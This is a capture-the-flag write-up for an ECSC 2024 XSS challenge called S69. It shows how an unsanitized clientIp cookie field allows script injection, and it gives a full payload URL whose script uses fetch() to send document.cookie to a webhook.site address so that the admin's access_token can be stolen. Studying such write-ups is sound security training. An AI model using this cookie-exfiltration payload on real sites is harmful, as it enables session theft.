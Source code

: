 # S69

> As a part of our duties we develop and maintain S69 - a special system for responding to malicious content online. Be sure to use it if you see something suspicious.
>
> [https://s69.ecsc24.hack.cert.pl/](https://s69.ecsc24.hack.cert.pl/)


## Solution
We are presented with a classic XSS challenge setup. Turns out that the "reason" field in incident report is not susceptible to XSS - however, we also get the "about you" form. The answers to the form are saved as Base64-encoded JSON object in `about` cookie, which makes finding the vulnerability slightly easier. Let's check if the inputs are properly sanitized by setting the data to the following (Base64-encoded) JSON object and reloading the page:

```
{"email": "example@example.com\"", "password": "example\"", "fax": "169696969\"", "bankingPet": true, "maidenName": true, "clientIp": "127.0.0.1\""}
```

IP is not properly sanitized and it's possible to escape this tag and inject arbitrary code, which can be seen from the presence of an additional quotation mark in the HTML source code:
```
<input name="clientIp" type="text" class="form-control" id="clientIp" aria-describedby="emailHelp" required value="127.0.0.1"" readonly style="background-color: rgba(255, 255, 255, .1); opacity: 1;">
```

Set up a webhook and report the following website: `https://s69.ecsc24.hack.cert.pl/save?email=example@example.com&password=example&clientIp=%22%3E%3Cscript%3Efetch(%60https://webhook.site/0466f46f-760b-41dd-8124-d135879bee15?q=$%7Bdocument.cookie%7D%60).then(x%20=%3E%20console.log(x))%3C/script%3E%3Cinput%20type=%5C%22hidden&fax=100000000&bankingPet=on&maidenName=on`. Copy the `access_token` cookie from the data from the webhook and go to `/secret` to read the flag.

## Flag
`ecsc24{gotta_have_an_xss_challenge_right?}`
